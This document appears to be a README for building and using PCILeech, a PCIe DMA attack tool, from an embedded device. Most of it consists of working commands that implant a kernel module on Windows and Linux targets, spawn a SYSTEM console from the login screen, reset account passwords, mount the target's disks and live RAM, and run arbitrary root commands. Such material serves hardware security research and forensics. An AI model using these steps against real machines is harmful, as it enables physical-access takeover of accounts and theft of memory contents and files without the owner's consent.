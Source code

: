 # PCILeech setup
On the embedded platform

Install dependencies

```shell
sudo apt install libusb-1.0-0-dev build-essential pkgconf liblz4-dev libfuse-dev
```

```shell
mkdir PCILeech && cd PCILeech
# Clone Leechcore
git clone https://github.com/ufrisk/LeechCore.git
# Clone Leechcore-plugins
git clone https://github.com/rwk-git/LeechCore-plugins.git --branch generic --single-branch
# Clone MemProcFS
git clone https://github.com/ufrisk/MemProcFS.git
# Clone PCILeech
git clone https://github.com/ufrisk/pcileech.git

# Build the LeechCore library
pushd LeechCore/leechcore
make
popd
# Build the MemProcFS library
pushd MemProcFS/vmm
make
cd ../memprocfs
make
popd
# Build the LeechCore plugin
pushd LeechCore-plugins/leechcore_device_generic
make
popd
# Build PCI Leech
pushd pcileech/pcileech
make
cd ../files
cp ../../LeechCore-plugins/files/leechcore_device_generic.so .
popd
```

# PCILeech usage examples

In the embedded platform, go in the `PCILeech/pcileech/files` directory as that is where the executable and libraries are.

## Windows target

- Implant kernel module with `sudo ./pcileech kmdload -kmd WIN10_X64_3 -device 'generic://dev=/dev/pci-io'`
- Save the returned Kernel Module Address with `export KMD=0x7ffff000` here you manually have to type the address returned above
- List processes with `sudo ./pcileech -kmd $KMD wx64_pslist  -device 'generic://dev=/dev/pci-io'`
- Search for login process with `sudo ./pcileech -kmd $KMD wx64_pslist  -device 'generic://dev=/dev/pci-io' | grep -A 1 LogonUI.exe | sed 's/.*PID=\(.*\)|.*/\1/p' | tail -n1`
- Open a console with `sudo ./pcileech -kmd $KMD wx64_pscreate -0 0x$(sudo ./pcileech -kmd $KMD wx64_pslist  -device 'generic://dev=/dev/pci-io' | grep -A 1 LogonUI.exe | sed 's/.*PID=\(.*\)|.*/\1/p' | tail -n1) -s 'C:\Windows\System32\cmd.exe' -1 0x08000000 -2 0x1  -device 'generic://dev=/dev/pci-io'`
  Here a nested command is used to get the PID of the LogonUI.exe process in Windows, then a command line is opened
- Change the password with `net user <username> <password>` e.g., `net user admin 1234`
- This is a system (Windows jargon for *root*) console, you can do anything from here.

**Notes:** In the examples above I use `LogonUI.exe` as parent process, this is only available on the login screen, choose another process in other circumstances.

### Mount all Windows file systems and system RAM

- Create a mountpoint somewhere in your file system `mkdir -p /home/ubuntu/target`
- Mount the windows file systems and RAM with `sudo ./pcileech mount -mount /home/ubuntu/target/ -kmd $KMD -device 'generic://dev=/dev/pci-io'`

```
root@ENVME:~# ls /home/ubuntu/target/
files  liveram-kmd.raw	liveram-native.raw
# Read the RAM natively (through PCIe), for example here data is shown for the low addresses
root@ENVME:~# xxd /home/ubuntu/target/liveram-native.raw | head -n 1000
# Read the RAM through the kernel module, for example here these low addresses cannot be accessed, therefore read as 0
root@ENVME:~# xxd /home/ubuntu/target/liveram-kmd.raw | head -n 1000
# Check the taget file systems
root@ENVME:~# ls /home/ubuntu/target/files/c/
'$Recycle.Bin'		   PerfLogs		        Users
'$WinREAgent'		  'Program Files'	        Windows
'Documents and Settings'  'Program Files (x86)'         hiberfil.sys
 DumpStack.log		   ProgramData		        pagefile.sys
 DumpStack.log.tmp	   Recovery		        swapfile.sys
 Intel			  'System Volume Information'
```

## Linux target

- Implant kernel module with `sudo ./pcileech kmdload -kmd LINUX_X64_48 -device 'generic://dev=/dev/pci-io'`
- Save the returned Kernel Module Address with `export KMD=0x60000000` here you manually have to type the address returned above
- Send any command as root `sudo ./pcileech -kmd $KMD lx64_exec_root -s "echo '<user>:<password>' | chpasswd" -1 1 -device 'generic://dev=/dev/pci-io'`
  For example `sudo ./pcileech -kmd $KMD lx64_exec_root -s "echo 'reds:1234' | chpasswd" -1 1 -device 'generic://dev=/dev/pci-io'`
  Or turn off the computer (properly) `sudo ./pcileech -kmd $KMD lx64_exec_root -s "poweroff" -1 1 -device 'generic://dev=/dev/pci-io'`